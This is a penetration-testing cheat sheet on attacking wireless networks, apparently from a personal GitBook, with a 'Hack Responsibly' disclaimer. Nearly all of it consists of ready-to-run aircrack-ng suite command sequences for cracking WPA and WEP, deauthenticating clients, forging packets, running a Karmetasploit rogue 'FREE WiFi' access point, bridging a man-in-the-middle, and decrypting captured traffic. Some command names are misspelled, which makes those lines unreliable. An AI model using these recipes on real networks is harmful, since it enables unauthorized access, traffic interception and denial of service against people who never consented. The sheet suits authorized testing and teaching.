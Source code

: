 # Wireless

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

[https://www.bettercap.org/](https://www.bettercap.org/)

[https://miloserdov.org/?p=1112\#1](https://miloserdov.org/?p=1112#1)

Nothing here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)



## Choosing a wireless module

You must choose a wireless module that has a chipset that is capable of being put in monitor mode.  The site below has a fairly comprehensive list of adapters that support this.  

[https://miloserdov.org/?p=2196](https://miloserdov.org/?p=2196)

## **Setting TX POWER**

iw reg set BO  
iwconfig wlan1 txpower 25

## **Cracking WPA**

airmon-ng start wlan0  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {disassociation attack}  
aircrack-ng -0 -w \(wordlist path\) \(caputure filename\)

## **Cracking WEP with Connected Clients**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {disassociation attack}  
aireplay-ng -3 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon {ARP replay attack}

## **Cracking WEP via a Client**

airmon-ng start wlan0 \(channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -2 -b \(AP MAC\) -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon  
aireplay-ng -2 -r \(replay cap file\) wlan0mon {inject using cap file}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

### **ARP amplification**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 500 -q 8 -a \(AP MAC\) wlan0mon  
areplay-ng -5 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k 255.255.255.255 -l 255.255.255.255 -y \(FRAGMENT.xor\) -w \(filename.cap\)  
tcpdump -n -vvv -e -s0 -r \(replay\_dec.\#\#\#\#\#.cap\)  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k \(destination IP\) -l \(source IP\) -y \(FRAGMENT.xor\) -w \(filename.cap\)  
aireplay-ng -2 -r \(filename.cap\) wlan0mon

## **Cracking WEP /w shared key AUTH**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
~this will error out~aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aireplay-ng -1 60 -e \(ESSID\) -y \(sharedkeyfile\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication /w PRGA xor file}  
aireplay-ng -3 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon {ARP replay attack}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

## **Cracking a Clientless WEP \(FRAG AND KOREK\)**

### _{FRAG}_

airmon-ng start wlan0 \(channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 60 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
~aireplay-ng -5 \(frag attack\) -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255 -k 255.255.255.255 -y \(fragment filename\) -w filename.cap  
tcpdump -n -vvv -e -s0 -r filename.cap {TEST}  
aireplay-ng -2 -r filename.cap wlan0mon

### _{KOREK}_

~aireplay-ng -4 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
tcpdump -s 0 -s -e -r replayfilename.cap  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255\(source IP\) -k 255.255.255.255\(dest IP\) -y \(fragmentfilename xor\) -w filename.cap  
aireplay-ng -2 -r filename.cap wlan0mon  
aircrack-ng -0 filename.cap

## **Karmetasploit**

airbase-ng -c \(channel\) -P -C 60 -e “FREE WiFi” -v wlan0mon  
ifconfig at0 up 10.0.0.1/24  
mkdir -p /var/run/dhcpd  
chown -R dhcpd:dhcpd /var/run/dhcpd  
touch /var/lib/dhcp3/dhcpd.leases  
cat dhcpd.conf  
touch /tmp/dhcp.log  
chown dhcpd:dhcpd /tmp/dhcp.log  
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0  
msfconsole -r /root/karma.rc

#### **Bridge CTRL man in the middle SETUP**

airebase-ng -c 3 -e “FREE WiFi” wlan0mon  
brctl addbr hacker\(interface name\)  
brctl addif hacker eth0  
brctl addif hacker at0  
ifconfig eth0 0.0.0.0 up  
ifconfig at0 0.0.0.0 up  
ifconfig hacker 192.168.1.8 up  
ifconfig hacker  
echo 1 &gt; /proc/sys/net/ipv4/ip\_forward

#### **pyrit DB attacks**

pyrit eval  
pyrit -i \(wordlist\) import\_passwords  
pyrit -e \(essid\) create\_essid  
pyrit batch  
pyrit batch -r \(capturefile\) -b\(AP MAC\) attack\_db

**pyrit strip**  
pyrit -r \(capturefile\) -o \(capturefile output\) strip

**pyrit dictionary attack**  
pyrit -r \(capturefile\) -i \(/pathtowordlist\) -b \(AP MAC\) attack\_passthrough

#### **airgraph-ng**

airgraph-ng -i filename.csv -g CAPR -o outputfilename.png  
eog outputfilename.png  
airgraph-ng -i filename.csv -g CPG -o outputfilename.png  
eog outputfilename.png

#### **airdecap-ng**

airdecap-ng -b \(vic ap\) outputfilename.cap  
wireshark outputfilename.cap  
airdecap-ng -w \(WEP KEY\) \(capturefile.cap\)  
wireshark capturefile-DEC.cap  
airdecap-ng -e \(ESSID VIC\) -p \(WPA PASSWORD\) \(capturefile.cap\)  
wireshark capturefile-dec.cap

